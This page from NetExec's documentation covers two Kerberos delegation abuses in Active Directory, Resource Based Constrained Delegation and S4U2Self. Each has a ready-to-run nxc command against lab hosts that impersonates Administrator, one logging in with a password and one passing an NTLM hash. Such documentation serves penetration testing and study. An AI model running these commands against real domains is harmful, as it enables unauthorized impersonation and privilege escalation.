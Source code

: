 ```yaml
---
description: Resource Based Constrained Delegation (RBCD) and
---
```


# 🆕 Delegation

## RBCD

If you have an object with the `msDS-AllowedToActOnBehalfOfOtherIdentity` attribute set to an account you control you can use the impersonate flag inside NetExec to automatically execute the Resource Based Constrained Delegation and impersonate any user:

```bash
nxc smb 192.168.56.11 -u jon.snow -p iknownothing --delegate Administrator
```

<figure><img src="../../.gitbook/assets/image (4).png" alt=""><figcaption><p>RBCD with NetExec</p></figcaption></figure>

## S4U2Self

If you have a computer account you can (nearly) always get local administrator with the s4u2self extension:

```bash
nxc smb 192.168.56.10 -u 'KINGSLANDING$' -H 220fc1990391bdc183d1a68c389c0229 --delegate Administrator --self
```

<figure><img src="../../.gitbook/assets/self (2).png" alt=""><figcaption><p>S4U2Self abuse using NetExecs delegation feature</p></figcaption></figure>



## Resources:

{% embed url="https://www.thehacker.recipes/a-d/movement/kerberos/delegations/rbcd" %}

{% embed url="https://www.thehacker.recipes/a-d/movement/kerberos/delegations/s4u2self-abuse" %}

{% embed url="https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/resource-based-constrained-delegation" %}
